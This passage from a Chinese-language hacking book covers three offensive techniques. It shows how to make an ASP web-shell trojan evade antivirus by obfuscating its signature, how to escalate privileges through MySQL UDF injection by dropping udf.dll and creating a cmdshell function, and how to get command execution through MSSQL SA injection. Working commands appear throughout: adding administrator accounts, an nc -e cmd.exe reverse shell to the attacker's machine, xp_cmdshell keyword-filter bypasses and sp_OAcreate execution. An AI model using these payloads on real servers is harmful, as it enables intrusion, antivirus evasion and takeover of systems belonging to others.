

现在把这个加密后的 ASP 木马上传到世界杀毒网，看看效果如何，如图 7。可以看到，现在只有 12 种杀毒软件能查到该程序了。可见这个方法虽然有一定的效果，但远远不能达到要求，主流杀毒软件仍然能轻松地发现这是木马。

| 反病毒引擎 | 版本 | 最后更新 | 扫描结果 |
|---|---|---|---|
| AhnLab-V3 | - | - | - |
| AntiVir | - | - | BDS/ASP.Ace.AX |
| Authentium | - | - | - |
| Avast | - | - | VBS:Encrypted-gen |
| AVG | - | - | - |
| BitDefender | - | - | - |
| CAT-QuickHeal | - | - | - |
| ClamAV | - | - | - |
| DrWeb | - | - | - |
| eSafe | - | - | - |
| eTrust-Vet | - | - | - |
| Ewido | - | - | Backdoor.Ace.ax |
| F-Prot | - | - | - |
| F-Secure | - | - | Backdoor.ASP.Ace.ax |
| FileAdvisor | - | - | High threat detected |
| Fortinet | - | - | - |
| Ikarus | - | - | Backdoor.ASP.Ace.bq |
| Kaspersky | - | - | Backdoor.ASP.Ace.ax |
| McAfee | - | - | IIS/BackDoor-Ace |
| Microsoft | - | - | Backdoor:ASP/Ace |
| NOD32v2 | - | - | - |
| Norman | - | - | - |
| Panda | - | - | - |
| Prevx1 | - | - | - |
| Rising | - | - | Script.ASP.Ace.v |
| Sophos | - | - | - |

这种结果证明了网络安全中的一个定律，越简单的技巧效果越差（似乎是废话）。唯一有效的方法是见招拆招，要针对服务器上安装的杀毒软件来有针对性地修改，这才是王道。

修改免杀版木马的思路和大概技术在非安全出品的《精通黑客免杀》和《资深黑客渗透内幕答疑》中已有所介绍，不过大多是修改的 exe 可执行程序，这次我们来针对脚本文件进行免杀处理。

脚本文件的免杀思路和 EXE 的免杀过程并没有区别，都是先定位特征码，然后修改。在查找特征码这点上没有什么区别，但是在特征码的修改方面，脚本文件还是有自己特色的。



定位特征码方面，我最近发现一个脚本工具不错，这个工具包含一个批处理文件和一个 VBS 文件，如图 8。

批处理文件是用来定位特征码的，先切换到程序所在目录，不要急着运行 1.bat。这个批处理中涉及到许多特殊字符，是存在一定危险性的，所以 cmd 中默认关闭了对这些特殊字符的解析，先要用命令 `cmd /v:on` 解除限制，这样就可以运行 1.bat 了。



运行后出现如图 9 的画面，可以选择 a. 查找特征码，b. 分析特征码。  
输入 a 之后回车，需要输入免杀文件的路径，我要免杀的文件在 `c:\users\pc\2006.asp`，输入后如图 10。



下一步是输入生成临时文件的文件夹，就是在以前我们讲 myccl 免杀 EXE 文件时生成若干份程序样本的保存文件夹，这里我设为 aspms。注意，工具是不能自动建立文件夹的，要先手工建好 aspms 文件夹。

下一步是生成每一份文件的行数，不要选太大，太大了样本数少，定位不准确；也不能太小，小了生成的样本数多，这里我随便填上 20，如图 11。大家如果在实际免杀时遇到结果不太正常的情况，比如找不到特征码，可以在这一步中重新调整行数。



运行后找到一处特征码，如图 12，看看在工具中的描述，特征码在 0-20 行。继续按任意键，选 Y 进行处理，再选择 A 查找特征码，再分别填入免杀文件路径和生成文件夹，不过这次每块行数选择为 5，结果是特征码在 0-5 行，还是大了点。心一横改成 2 行试试，结果如图 13，提示特征码在 2-4 行，不是太多了，可以接受的结果。



在木马的源码中看到 2-4 行的内容如下：

```html
<object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"></object>
<object runat="server" id="fso" scope="page" classid="clsid:0D43FE01-F093-11CF-8940-00A0C9054228"></object>
<object runat="server" id="sa" scope="page" classid="clsid:13709620-C279-11CE-A49E-444553540000"></object>
```

接下来就是利用工具来修改这三行代码，它采用的是函数拼接法，就是把一段代码拆成若干小段，然后再拼到一起，这样原来的秩序被打乱了，能达到一定的免杀效果。



再运行工具，选择 b 分析特征码，弹出一个 JS 脚本窗，把要修改的字符复制进去后按“确定”就能生成免杀代码串了。需要注意的是，在 asp 脚本里“<>”和“%”号都是特殊字符，不要将其随便改写，因为原语句中一旦缺失这个字符，根本就无法正常运行了。所以这里我们只能把“<>”号中间的语句放入修改器中生成，先是：`object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"`，转换后得到如图 14 的结果。

```text
object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"
```

## 重装上阵

```text
请选择免杀步骤:
a. 查找特征码, b. 分析特征码 b
脚本生成完毕, 下面开始拆分
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001。保留所有权利。
b="":a="o"&b&"h"&b&"j"&b&"e"&b&"c"&b&"t"&b&" "&b&"r"&b&"u"&b&"n"&b&"a"&b&"t"&b&"="&b&""&chr(34)&"s"&b&"e"&b&"r"&b&"v"&b&"e"&b&"r"&b&""&chr(34)&" "&b&"i"&b&"d"&b&"="&b&""&chr(34)&"w"&b&"s"&b&""&chr(34)&" "&b&"s"&b&"c"&b&"o"&b&"p"&b&"e"&b&"="&b&""&chr(34)&"p"&b&"a"&b&"g"&b&"e"&b&""&chr(34)&" "&b&"c"&b&"l"&b&"a"&b&"s"&b&"s"&b&"i"&b&"d"&b&"="&b&""&chr(34)&"c"&b&"l"&b&"s"&b&"i"&b&"d"&b&":"&b&"F"&b&"9"&b&"3"&b&"5"&b&"D"&b&"C"&b&"2"&b&"2"&b&"-"&b&"1"&b&"C"&b&"F"&b&"0"&b&"-"&b&"1"&b&"1"&b&"D"&b&"0"&b&"-"&b&"A"&b&"D"&b&"B"&b&"9"&b&"-"&b&"0"&b&"0"&b&"C"&b&"0"&b&"4"&b&"F"&b&"D"&b&"5"&b&"8"&b&"A"&b&"0"&b&"B"&b&""&chr(34)&"":execute(a)
处理完毕!
请按任意键继续
```

```text
请按任意键继续...
是否继续处理? Y Or N?
请选择免杀步骤:
a. 查找特征码, b. 分析特征码 b
脚本生成完毕, 下面开始拆分
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001。保留所有权利。
b="":a="/"&b&"o"&b&"h"&b&"j"&b&"e"&b&"c"&b&"t"&b&"":execute(a)
处理完毕!
请按任意键继续
```


| 反病毒引擎 | 版本 | 最后更新 | 扫描结果 |
|---|---|---|---|
| AhnLab-V3 | - | - | - |
| AntiVir | - | - | BDS/ASP.Ace.AX |
| Authentium | - | - | - |
| Avast | - | - | VBS:Encrypted-gen |
| AVG | - | - | - |
| BitDefender | - | - | - |
| CAT-QuickHeal | - | - | - |
| ClamAV | - | - | - |
| DrWeb | - | - | - |
| eSafe | - | - | - |
| eTrust-Vet | - | - | - |
| Ewido | - | - | Backdoor.Ace.ax |
| F-Prot | - | - | - |
| F-Secure | - | - | Backdoor.ASP.Ace.ax |
| FileAdvisor | - | - | High threat detected |
| Fortinet | - | - | - |
| Ikarus | - | - | Backdoor.ASP.Ace.bq |
| Kaspersky | - | - | Backdoor.ASP.Ace.ax |
| McAfee | - | - | IIS/BackDoor-Ace |
| Microsoft | - | - | Backdoor:ASP/Ace |
| NOD32v2 | - | - | - |
| Norman | - | - | - |
| Panda | - | - | - |
| Prevx1 | - | - | - |
| Rising | - | - | - |

将结果全部复制到 ASP 脚本的第一对“<>”号中，然后是修改“/object”，如图 15。

把结果复制到“/object”原来所在的“<>”号中。完工以后检查一下是否能正常运行，否则免杀得再好也没用。在 IIS 下运行测试一下，正常运行，如图 16。

接着把文件提交到世界杀毒网，只有 12 种杀毒软件能检测到，而且瑞星已经无法查杀了，如图 17。这样我们的木马可以在装有瑞星的服务器上成功运行了，虽然还无法做到全部免杀所有杀毒软件，但只要掌握了方法，针对服务器所安装的杀毒软件去对脚本木马文件进行免杀即可。

后记：使用这款工具来查找并修改 WEB 木马免杀，并不是因为这款工具在功能和准确性上是最好的，实际上这款工具的精确性和 MYCCL 相比还有不小的差距，并且对如今被广泛采用的复合特征码无法定位，所采用的免杀方式也不是太理想，只适合在一定的情况下使用，但是这个工具的思路很好地体现了脚本类木马免杀的精髓——建立函数免杀。

## 十一、无 PHP 权限的 UDF 提权

在本书前面的章节中，给大家介绍过在 Windows 下有 MySQL 及 PHP 环境时，可以被 UDF 提升权限。不过这种通用的提权利用方法中有一个小小的问题，就是这个提权工具是 PHP 代码编写的脚本，如果服务器不解析 PHP 脚本，这个利用工具是无法运行的（注：IIS6 中无法解析后缀名时都是显示找不到文件），如图 1。


虽然通过在《资深黑客渗透内幕答疑》（非安全出品哦！）一书中介绍的相关知识得知 PHP 的脚本大部分对应的是 MySQL 数据库，但是也不排除有的服务器就不支持 PHP 而支持 ASP 脚本（安装一个驱动即可实现）。更常见的情况是，从 webshell 中看到的 MySQL 数据库在另一台服务器，并且是单独的服务器，除了 MySQL 数据功能就没有其它 WEB 脚本的解析功能。遇到这两种情况时，我们按老办法提权都是行不通的。

行不通？变则通！这次介绍一下对于没有条件解析 PHP 脚本的服务器的提权方法。


假如服务器能运行 ASP 脚本，一个可以马上想到的方法是把工具改写成 ASP 版本的代码，但是这样太麻烦了，改写代码的方法也是我们广大菜鸟难以掌握的。更致命的是，前面我们已经提过，要想用 ASP 操作 MySQL 数据库是要安装一个驱动的，而安装驱动是需要管理员权限，我们现在正是要提到管理员权限。


```php
/********** 数据库信息设置 **********/
$db_host = '192.168.1.68';    // 主机地址
$db_user = 'nohack';          // 用户名
$db_pass = 'hack123456';      // 密码
$db_name = 'hack_test';       // 数据库名
$tablepre = 'wu_';            // 表前缀
$cookiedomain = '';
$cookiepath = "/";
/********** 会话过期的秒数 **********/
$sessexpiry = '9000';
/********** 默认显示新闻的字数 **********/
$config_substr = "23";
$deny = "0";
```

这个思路就断在这里了。如图 2，要在 ASP 下连接 MySQL 数据库是不行的。

```text
Microsoft Windows [版本 5.2.3790]
(C) 版权所有 1985-2003 Microsoft Corp.

C:\Documents and Settings\Administrator>ping www.jianzz.com
Pinging www.jianzz.com [124.225.113.44] with 32 bytes of data:
Reply from 124.225.113.44: bytes=32 time=61ms TTL=120
Reply from 124.225.113.44: bytes=32 time=60ms TTL=120
Reply from 124.225.113.44: bytes=32 time=61ms TTL=120
Reply from 124.225.113.44: bytes=32 time=59ms TTL=120

Ping statistics for 124.225.113.44:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 59ms, Maximum = 61ms, Average = 60ms

C:\Documents and Settings\Administrator>
```

先说说第一种情况，也是最多的一种，那就是 MySQL 服务器和得到 webshell 的网站不在同一服务器。我们在 webshell 里用“netstat -an”命令，返回结果如图 3。

看到 3306 这个 MySQL 常见的端口没有打开，事情不妙！用“ipconfig -all”命令看到本机的 IP 是 192.168.1.44，如图 4。

再到数据库配置文件中一看，如图 5，果然数据库连接的 IP 地址和刚才“ipconfig -all”中看到的本机 IP 地址不同，并同时得到了以下资料：

> 数据库的 IP 地址：192.168.1.68  
> 数据库用户名：nohack  
> 数据库密码：hack123456  
> 数据库名：hack_test


现在使用提权工具的四大要素有三个已经具备了，但是 IP 地址还没有出来，不过还好是在同一网段内，那么两台服务器在公网，IP 也应该是在同一网段下。先 ping 一下目标网站，得到 IP 地址如图 6。

然后扫扫同网段的 IP 地址，扫描工具大家都很熟悉了，就不多废话了。先看有哪些服务器是打开 3306 端口的，很快结果出现了，同网中有一台服务器是打开了 3306 端口的，如图 7，会不会是我们的目标服务器呢？

用 MySQL 连接器试着连接一下，填入扫到的公网 IP 地址、用户名、密码、数据库名，连接成功！很幸运，这台服务器正是目标站的数据库服务器，如图 8。

但是不要高兴得太早，不要忘了我们是来提升权限的，不是来连接自己本就能掌握的自身 webshell 的数据库的。现在你在该数据库的所有操作，也仅仅只有那个数据库中的用户权限而已。

现在我们已经连接上数据库了，就相当于在提权工具中已经完成了连接数据库的准备工作，剩下来的只要把 udf.dll 导出并建立函数，我们就提权成功了。过程很类似我们在 MSSQL 中备份导出 webshell：先建一个表，然后把 dll 转换成表中字段能正确容纳的数据类型装进去，然后导出，下面来操作一下。

先建一个表，在 MySQL 中建表和 MSSQL 并无太大区别，输入命令时注意，我们在提权工具中每一行命令后面都要加分号，但在连接器里可以不用加，直接输入命令 `CREATE TABLE Temp_Tab (udf BLOB)`，完成后如图 9。


BLOB 是字段数据类型，表示是二进制数据。接下来是要把 udf.dll 转换成二进制文件再插入表中。在这个提权工具的源代码中已经提供了转换好的 udf.dll 二进制代码，直接把代码复制后放到文件里就可以了。在提权工具的最下方，以 0x 开头的那一长串双引号中间的字符就是，全部复制到语句里，如图 10。


最后执行：`INSERT into Temp_Tab values (源文件中的那一长串代码)`。  
然后导出 dll 到 system32 目录下，在设定目录的时候注意，包含的单斜杠要改成双斜杠，如图 11：

```sql
SELECT udf FROM Temp_Tab INTO DUMPFILE 'c:\\windows\\system32\\udf.dll'
```


继续按照工具的操作，把 dll 添加为函数，执行：`Create Function cmdshell returns string soname 'udf.dll'`。

注意单斜杠仍然要改成双斜杠，接着看看命令是否执行成功！我们检验一下，建立一个账号，命令：`Select cmdshell('net user nohack hack123456 /add')`，然后再用 `net user` 命令看看执行结果，如图 12，nohack 用户建立成功。

如果 MySQL 数据库安装在和我们的 webshell 是同一个服务器，而只是无法支持 PHP，这样提权就更简单了。ASP 下不能连接 MySQL 数据库，那我们就把一个 cmdshell 反弹到自己的机器上，然后在 cmdshell 下连接目标自己 IP 上的 MySQL 数据库。


先要上传两个工具，一个是“端口军刀”nc.exe，另一个重要的东西就是那个提权工具中生成的 dll 文件。如果你没有，就麻烦了一点，要在本地建一个 PHP 的环境，然后运行提权工具，直到生成了 dll 成功那一步，打开你本机的 `c:\windows\system32` 目录，找到 udf.dll 文件，如图 13。

把 nc 和 udf.dll 都上传到服务器上，注意 udf.dll 还是只能传到 system32 目录下面。在本机用 nc 监听一个端口，在 webshell 上用 nc 返回一个 cmd 到我的 IP 和监听的端口，基本功别忘了，以前许多书都有介绍。

```sql
mysql> Create Function cmdshell returns string soname 'udf.dll';
Query OK, 0 rows affected (0.03 sec)

mysql> select cmdshell('net user');
```

```text
C:\>nc -vv -l -p 99
listening on [any] 99 ...
connect to [192.168.1.44] from pcc-4885e56bcb9 [192.168.1.44] 1694
Microsoft Windows 2000 [Version 5.02.3790]
(C) 版权所有 1985-2000 Microsoft Corp.

c:\windows\system32\inetsrv>
```

```text
C:\>cd mysql5
C:\MySQL5>cd bin
C:\MySQL5\bin>mysql -h 127.0.0.1 -u root -p ""
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 111 to server version: 5.0.18-nt

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql>
```

| cmdshell('net user') |
|---|
| \\PCC-4885E56BCB9 的用户帐户 |
|  |
| _____________ Administrator Guest |
| VMware_user_ IVAM_PCC-4885E56BCB9 nohack |
| IUSR_PCC-4885E56BCB9 |
| SQLDebugger SUPPORT_388945a0 |
| 命令成功完成。 |
| 完成! |

一会儿 cmdshell 就连上来了，如图 15。

切换到 cmdshell 中的 MySQL 安装目录，一般是 `c:\MYSQL5\bin`，使用 MySQL 连接器连接 IP，输入：`MYSQL -h 127.0.0.1 -u username -p password`，出现如图 16 的连接成功提示。

现在我们不用建表再导入 dll 后导出了，直接注册 dll 为函数。注意在这个命令行的连接器下输入命令时，都要像在提权工具中那样，以分号结束，否则语句无法执行。

当函数建立成功后就可以执行命令了，提升权限成功，如图 17。

执行：`nc -e cmd.exe 我的IP 99`，注意在 webshell 中执行命令时把 nc 上传的绝对路径要写上去，完成后如图 14。

## 十二、自建存储过程拿下 MSSQL 服务器

MSSQL 的注入从问世至今，已经算不得什么高深的技术了，无非是遇到的难关更多，将其突破、突破、再突破！MSSQL 在 SA 权限下的黑客技巧相对是比较简单的，因为 SA 权限实在太大了，通过 SA 权限注入点直接执行 cmd 命令就可以添加管理员账号或者执行其它的命令，比如：

```sql
exec master..xp_cmdshell 'net user nohack hack123456 /add'
```

很多网站的脚本代码里还过滤了 xp_cmdshell 等关键字，用参数提交的方法使用以下语句绕过：

```sql
declare @a sysname set @a='xp_'+'cmdshell' exec @a 'net user nohack hack123456 /add'
```

这段语句的意思是，建一个变量 a，把“xp_cmdshell”这个字符拆分成“xp”和“_cmdshell”用“+”号结合到一起提交给变量，然后以变量的形式来执行命令，这样提交到脚本代码就避免了出现直接的“xp_cmdshell”字符。

通常管理员只是禁用了这个扩展存储过程，禁用的语句是：

```sql
sp_dropextendedproc 'xp_cmdshell'
```

我们可以尝试恢复扩展存储过程，语句是：

```sql
sp_addextendedproc 'xp_cmdshell','xplog70.dll'
```

有些管理员更加“心狠手辣”，将支持 xp_cmdshell 的动态数据库链接文件 xplog70.dll 删除了，这样 cmdshell 将彻底无法使用。不过也并非毫无希望，可以试试用下面的语句，一样能达到执行 Windows 命令的效果：

```sql
DECLARE @shell INT EXEC SP_OAcreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\windows\system32\cmd.exe /c net user nohack hack123456 /add '
```

这是调用了 wscript.shell 执行命令，wscript.shell 在虚拟主机中是常被禁用或改名的危险组件之一。


以上是简单地回顾了一下在 MSSQL 的 SA 权限下的典型入侵手法，可以管中窥豹地见到 SQL 注入技术与防注入技术之间的较量和此消彼长。不过有一点万变不离其宗，SA 权限下的命令执行都依赖于扩展存储过程存在。遇到 SA 用户这种高权限账号，拿到服务器系统权限如探囊取物；如果扩展存储过程不能正常运行，那么即便是 SA 权限，拿下服务器也不可能是手到擒来的，需要颇费一番周折。

图 1

现在有一个网站，情况如下：

- SQL 注入可回显，SA 权限；
- 使用 cmdshell 执行系统命令失败；
- 恢复 xp_cmdshell 后执行失败；
- 尝试 wscript.shell 执行命令失败；
- 在工具中的返回结果如图 1。

退而求其次想放弃 SA 特权的一般用法，转而按常见的 DB_OWNER 权限注入方法查 WEB 目录备份木马，但找不到 WEB 目录，还是失败！至此我们以前学会的关于 SQL 注入的方法基本都行不通了，这里就谈谈高权限账号在被限制权限的环境中的黑客技巧。

记得曾经在很久很久以前那个以 IPC 空连接针对个人电脑进行入侵的年代，有一句话概括了其中的精髓——“没有写权限，创造写权限；有了写权限，愿望可实现”。现在我们的思路也就是按这个走，那就是“没有扩展存储，创造扩展存储；有了扩展存储，愿望可实现”。既然能让我们执行命令的扩展存储过程是 SA 权限注入的关键，那么我们就先动动脑子看能不能想办法“创造”出能使用的扩展存储过程。


在 MSSQL 中建立扩展存储过程，需要执行大量的语句和输入大量的字符，因此在思路上，最好是能够直接用查询分析器连接到目标的数据库，这样才方便操作。

```sql
exec master..sp_addlogin 'nohack','hack123456'    /* 建立管理员 nohack，密码 hack123456 */
